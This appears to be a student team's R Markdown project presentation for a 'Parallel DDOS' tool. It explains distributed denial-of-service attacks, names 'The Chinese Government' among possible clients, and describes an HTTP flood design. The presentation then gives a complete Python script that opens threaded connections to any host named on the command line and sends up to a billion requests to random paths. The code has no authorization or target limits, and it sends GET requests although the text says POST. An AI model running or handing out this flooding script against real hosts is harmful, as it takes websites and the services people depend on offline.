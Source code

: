 ```yaml
---
title: "Parallel DDOS"
author: "Alec Maier, Alex Alvarado, Kahlil Wehmeyer, Raphael Henrich"
output: 
  html_document:
    toc: true
    toc_float: true
---
```


# Meet the team

![](https://www.bandt.com.au/information/uploads/2018/11/Diverse-team-1260x840.jpg)



### Now that you've met them. Let's move onto the project! {-}

# What is a DDOS?

![](https://ruggedtooling.com/wp-content/uploads/2018/09/Botnet_Attack.png)

> A distributed denial-of-service (DDoS) attack occurs when multiple systems flood the bandwidth or resources of a targeted system, usually one or more web servers. Such an attack is often the result of multiple compromised systems (for example, a botnet) flooding the targeted system with traffic.

## Wait this sounds bad? What are you guys up to!?

![](https://www.xenonstack.com/images/insights/xenonstack-what-is-penetration-testing.png)

We aim to creat an efficient and distributed DDOS that will allow for companies and clients to test how secure their systems are in the case of a **real** DDOS attack.

## Possible use case clients include:

- AWS
- Cloudfare
- Google
- Oracle
- IBM
- _The Chinese Government_
- Microsoft
- DigitalOcean
- and many more!


# Solution Design

## **Method**: HTTP Flood

Benefits:

- No malformed packets
- No spoofing
- No reflection
- Less bandwidth than alternatives
- Harder to detect and block

Attack Type: POST
Targets OSI layer #7

### Weaknesses

- BOT Test
- Web Application Firewalls
- Tricky to program

# So what does this all look like?

$$\downarrow Scroll \downarrow$$

\break

```python
import socket
import threading
import random
import string
import sys
import time

hostName = ""
ipAddr = ""
portNum = 0
packets = 0

#parsing inputs from command line
#host name must be entered as url with nothing proceding the domain name
#ex: google.com, reddit.com
if len(sys.argv)==2:
    hostName = str(sys.argv[1])
    portNum = 80#default port for HTTP
    packets = 1000000000#default number of requests sent to ip address
else:
    sys.exit(1)#no valid input

#convert the host name to an IPv4 address
#if the host name is already an IPv4 address nothing is changed
ipAddr = socket.gethostbyname(hostName)
byteHostName = ipAddr.encode('utf-8','ignore')#convert string > bytes

#generates fake url path
def fake_url():
    charPool = str(string.ascii_letters + string.digits + string.punctuation)
    url = "".join(random.sample(charPool,10))
    url = url.encode('utf-8','ignore')#convert string>bytes
    return url


def ddos():
    byte_url = fake_url()

    connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM) #https://docs.python.org/3/library/socket.html 

    try:
        connection.connect((ipAddr,portNum))#establish connection using IPv4 address and port number, port maybe the default port 80
        connection.send(b'Get /%b HTTP/1.1\nHost: %b\n\n' % (byte_url,byteHostName))#socket.send can only accept bytes
    except socket.error:#happens if a site goes down or ip is banned
        print ("\n Unable to establish connection, site may be down or your ip has been banned.")
      
    finally:
        connection.shutdown(socket.SHUT_RDWR)
        connection.close()

threads = []
for i in range(packets):
    thread1 = threading.Thread(target=ddos)
    thread1.start()
    threads.append(thread1)
    time.sleep(0.01)

for current_thread in threads:
    current_thread.join()
```

![](https://media.giphy.com/media/RyXVu4ZW454IM/giphy.gif)